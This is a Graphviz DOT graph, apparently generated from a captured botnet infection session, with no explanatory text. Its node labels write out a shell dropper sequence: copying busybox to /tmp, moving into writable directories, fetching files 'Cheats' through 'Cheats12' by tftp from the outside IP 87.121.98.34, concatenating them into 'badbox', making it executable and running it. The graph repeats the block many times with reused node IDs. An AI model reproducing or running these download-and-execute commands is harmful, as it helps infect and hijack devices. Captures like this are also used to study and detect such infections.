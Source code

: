 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 14 [label="||,"];
14 [label="tftp 87.121.98.34 -c get Cheats "];
14 -> 16 [label=";,"];
16 [label="cat Cheats badbox "];
16 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 34 [label="||,"];
34 [label="tftp 87.121.98.34 -c get Cheats2 "];
34 -> 36 [label=";,"];
36 [label="cat Cheats2 badbox "];
36 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 54 [label="||,"];
54 [label="tftp 87.121.98.34 -c get Cheats3 "];
54 -> 56 [label=";,"];
56 [label="cat Cheats3 badbox "];
56 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 74 [label="||,"];
74 [label="tftp 87.121.98.34 -c get Cheats4 "];
74 -> 76 [label=";,"];
76 [label="cat Cheats4 badbox "];
76 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 94 [label="||,"];
94 [label="tftp 87.121.98.34 -c get Cheats5 "];
94 -> 96 [label=";,"];
96 [label="cat Cheats5 badbox "];
96 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 114 [label="||,"];
114 [label="tftp 87.121.98.34 -c get Cheats6 "];
114 -> 116 [label=";,"];
116 [label="cat Cheats6 badbox "];
116 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 134 [label="||,"];
134 [label="tftp 87.121.98.34 -c get Cheats7 "];
134 -> 136 [label=";,"];
136 [label="cat Cheats7 badbox "];
136 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 154 [label="||,"];
154 [label="tftp 87.121.98.34 -c get Cheats8 "];
154 -> 156 [label=";,"];
156 [label="cat Cheats8 badbox "];
156 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 174 [label="||,"];
174 [label="tftp 87.121.98.34 -c get Cheats9 "];
174 -> 176 [label=";,"];
176 [label="cat Cheats9 badbox "];
176 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 194 [label="||,"];
194 [label="tftp 87.121.98.34 -c get Cheats10 "];
194 -> 196 [label=";,"];
196 [label="cat Cheats10 badbox "];
196 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 214 [label="||,"];
214 [label="tftp 87.121.98.34 -c get Cheats11 "];
214 -> 216 [label=";,"];
216 [label="cat Cheats11 badbox "];
216 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 234 [label="||,"];
234 [label="tftp 87.121.98.34 -c get Cheats12 "];
234 -> 236 [label=";,"];
236 [label="cat Cheats12 badbox "];
236 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
}
